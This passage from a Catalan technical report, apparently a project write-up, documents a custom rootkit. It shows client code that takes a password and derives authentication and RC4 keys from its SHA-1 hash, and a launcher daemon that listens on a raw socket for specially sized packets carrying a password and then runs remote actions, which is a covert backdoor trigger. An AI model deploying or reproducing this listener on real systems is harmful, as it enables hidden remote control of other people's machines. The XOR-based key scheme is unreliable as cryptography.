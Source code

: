 En el client, la contrasenya és sol·licitada en el moment d'executar-se. Llavors, en el client 
s'inicialitzen les diferents claus en base a la contrasenya entrada.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
printf(@PYaB["]@PYaB[password: ]@PYaB["]); fflush(stdout);
fgets(p, @PYag[64], stdin); fflush(stdin);
p@PYZlb[]strlen(p) @PYbe[-] @PYag[1]@PYZrb[] @PYbe[=] @PYac['\0'];
tcsetattr(@PYag[0], TCSAFLUSH, @PYbe[&]old);

sha1((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])p, strlen(p), clientauth);
printf(@PYaB["]@PYao[\n]@PYaB["]);
@PYaJ[int] i @PYbe[=] @PYag[0];
@PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] @PYag[20]; i@PYbe[+]@PYbe[+]) {
    serverauth@PYZlb[]i@PYZrb[] @PYbe[=] clientauth@PYZlb[]i@PYZrb[]@PYbe[^]p@PYZlb[]@PYag[0]@PYZrb[];
}
@PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] @PYag[20]; i@PYbe[+]@PYbe[+]) {
    rc4key@PYZlb[]i@PYZrb[] @PYbe[=] clientauth@PYZlb[]i@PYZrb[]@PYbe[^]p@PYZlb[]@PYag[1]@PYZrb[];
}
\end{Verbatim}
    \caption{client.c::get\_pass()}
    \label{fig:client_get_pass}
\end{figure}
 
\subsection{Detecció del rootkit}
Per tal de detectar si hi ha un rootkit en execució en una màquina remota, s'ha implementat una acció
que pot ser executada independentment del password utilitzat. Com s'ha comentat en punts
anteriors, cada cop que el launcher rep un paquet del tamany exacte, aquest n'extreu de la capçalera, 20 
bytes i els compara amb el password que ell té. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) 
                @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
		}
    }
}
\end{Verbatim}
    \caption{launcher.c::raw\_daemon()}
    \label{fig:raw_daemon}
\end{figure}

